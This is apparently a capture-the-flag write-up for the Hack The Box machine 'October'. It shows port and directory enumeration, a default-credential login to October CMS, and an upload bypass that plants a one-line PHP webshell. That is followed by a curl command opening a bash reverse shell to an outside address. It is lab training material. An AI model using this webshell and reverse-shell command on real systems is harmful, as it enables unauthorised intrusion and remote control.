


# October
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.16 -T4                                     
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-10 17:39 BST
Nmap scan report for 10.10.10.16 (10.10.10.16)
Host is up (0.092s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.16 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-10 17:44 BST
Nmap scan report for 10.10.10.16 (10.10.10.16)
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.66 seconds

```

- Web server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.16/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 txt,php --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.16/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/09/10 17:47:42 Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 200) [Size: 4253]
/forum                (Status: 200) [Size: 9589]
/themes               (Status: 301) [Size: 310] [--> http://10.10.10.16/themes/]
/modules              (Status: 301) [Size: 311] [--> http://10.10.10.16/modules/]
/tests                (Status: 301) [Size: 309] [--> http://10.10.10.16/tests/]
/storage              (Status: 301) [Size: 311] [--> http://10.10.10.16/storage/]
/plugins              (Status: 301) [Size: 311] [--> http://10.10.10.16/plugins/]
/backend              (Status: 302) [Size: 400] [--> http://10.10.10.16/backend/backend/auth]
/vendor               (Status: 301) [Size: 310] [--> http://10.10.10.16/vendor/]
/config               (Status: 301) [Size: 310] [--> http://10.10.10.16/config/]

```

## Foothold
- From `gobuster` results we see `backend` endpoint
  - Googling also shows that there is a `October CMS`


- Default creds `admin:admin` works


- We can now perform https://www.exploit-db.com/exploits/41936
  - We can perform `PHP upload protection bypass` to upload a webshell
  - We can upload `.php5` file with `<?php system($_REQUEST['cmd']); ?>`



```
└─$ curl 'http://10.10.10.16/storage/app/media/shell.php5?cmd=id' 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- Let's get reverse shell
```
└─$ curl 'http://10.10.10.16/storage/app/media/shell.php5?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.9/6666+0>%261"' 
```


## Root
- Running `linpeas`
  - We have unknown suid binary `ovrflw`
  - Probably binary exploitation 



- `ovrflw`
```
└─$ file ovrflw                
ovrflw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=004cdf754281f7f7a05452ea6eaf1ee9014f07da, not stripped
```
```
└─$ ./ovrflw   
Syntax: ./ovrflw <input string>
```

